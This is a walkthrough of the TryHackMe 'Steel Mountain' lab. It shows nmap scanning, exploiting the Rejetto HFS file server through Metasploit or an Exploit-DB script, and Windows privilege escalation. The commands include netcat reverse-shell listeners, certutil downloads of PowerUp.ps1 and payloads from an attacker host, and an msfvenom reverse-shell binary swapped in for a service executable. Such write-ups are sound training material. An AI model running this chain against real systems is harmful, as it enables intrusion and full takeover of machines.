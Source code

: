 # Steel Mountain

**Room Link:** [https://tryhackme.com/room/steelmountain](https://tryhackme.com/room/steelmountain)

## **Walkthrough**

**Introduction**

**Who is the employee of the month?**

<figure><img src="../../.gitbook/assets/image (9) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### **Initial Access**

**Scan the machine with nmap. What is the other port running a web server on?**

```
nmap -A 10.10.248.189
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Take a look at the other web server. What file server is running?**

Google this

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

**What is the CVE number to exploit this file server?**

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

```
msfconsole 
use exploit/windows/http/rejetto_hfs_exec 
set LHOST 10.10.62.157 
set RHOSTS 10.10.181.159 
set RPORT 8080
exploit
```

**Option #2  Without Metasploit to get an initial shell. What is the user flag?**

**Exploit Link:** [https://www.exploit-db.com/raw/39161](https://www.exploit-db.com/raw/39161)

For this exploit we usually just need to change the ip\_addr and local\_port to our nc listener

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Because I performed this on a tryhackme attacker box which has port 80 in user to login through web I had to change the exploit to get the nc.exe from us on a different port.&#x20;

<figure><img src="../../.gitbook/assets/image (6) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
nc -nvlp 443
cp /usr/share/wordlists/SecLists/Web-Shells/FuzzDB/nc.exe .
python2 -m SimpleHTTPServer 81
python2 exploit.py 10.10.181.159 8080
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Use Metasploit to get an initial shell. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Privilege Escalation

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```

<figure><img src="../../.gitbook/assets/image (1) (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.228.214 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o ASCService.exe
```

I couldn't delete the ASCService.exe but I could replace it when I copied the file over with certutil

**Victim**&#x20;

```
cd C:\Program Files (x86)\IObit\Advanced SystemCare
sc stop AdvancedSystemCareService9 
certutil -urlcache -f http://10.10.228.214:81/ASCService.exe ASCService.exe
```

**Kali**

```
nc -lvnp 4443
```

**Victim**

```
sc start AdvancedSystemCareService9
```

![](<../../.gitbook/assets/image (3) (1) (2) (1) (1) (1).png>)






